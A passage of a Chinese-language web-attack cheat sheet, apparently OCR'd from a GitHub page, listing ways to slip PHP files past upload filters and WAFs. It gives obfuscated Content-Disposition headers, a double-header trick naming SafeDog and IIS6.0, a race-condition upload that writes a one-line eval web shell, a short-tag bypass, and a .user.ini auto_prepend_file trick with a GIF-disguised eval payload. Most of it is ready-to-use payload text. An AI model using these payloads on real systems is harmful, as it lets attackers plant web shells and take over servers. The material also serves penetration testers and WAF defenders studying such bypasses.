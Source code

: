 6.混淆waf匹配字段，例如

混淆form-data

```
content-Disposition:name="file";filename="a.php"
去除form-data

Content-Disposition: AAAAAAAA="BBBBBBBB"; name="file";  filename="a.php"
替换form-data为垃圾值

Content-Disposition: form-data   ; name="file"; filename="a.php"
form-data后加空格

Content-Disposition: for+m-data; name="file"; filename="a.php"
form-data中加+
```

混淆ConTent-Disposition
```
COntEnT-DIsposiTiOn: form-data; name="file"; filename="a.php"
大小写混淆

Content-Type: image/gif
Content-Disposition: form-data; name="file";  filename="a.php"
调换Content-Type和ConTent-Disposition的顺序

Content-Type: image/gif
Content-Disposition: form-data; name="file";  filename="a.php"
Content-Type: image/gif
增加额外的头

AAAAAAAA:filename="aaa.jpg";
Content-Disposition: form-data; name="file";  filename="a.php"
Content-Type: image/gif
增加额外的头

Content-Length: 666
Content-Disposition: form-data; name="file";  filename="a.php"
Content-Type: image/gif
增加额外的头
```
7.双文件绕过，例如安全狗总以最后一个Content-Disposition中的值作为接收参数进行检测，一些中间件例如IIS6.0总是以第一个Content-Disposition中的值作为接收参数

8.条件竞争，一些情况下在上传文件时，先上传到临时目录，然后再检测，检测到再删除，例如：可以上传生成一句话木马的文件

```
fputs(fopen('shell6666.php','w'),'<?php @eval($_POST[1])?>');
```

9.检查文件内容是否有php字符串

利用短标签绕过<?=phpinfo();?>

10.检查后缀中是否有htaccess或ph

上传.user.ini以及正常jpg文件

.user.ini比.htaccess用的更广，不论什么中间件，只要是以fastcgi运行的php都可以用这个方法

```
auto_prepend_file=a.jpg
```

```
GIF89a
<?=eval($_POST['cmd']);?>
```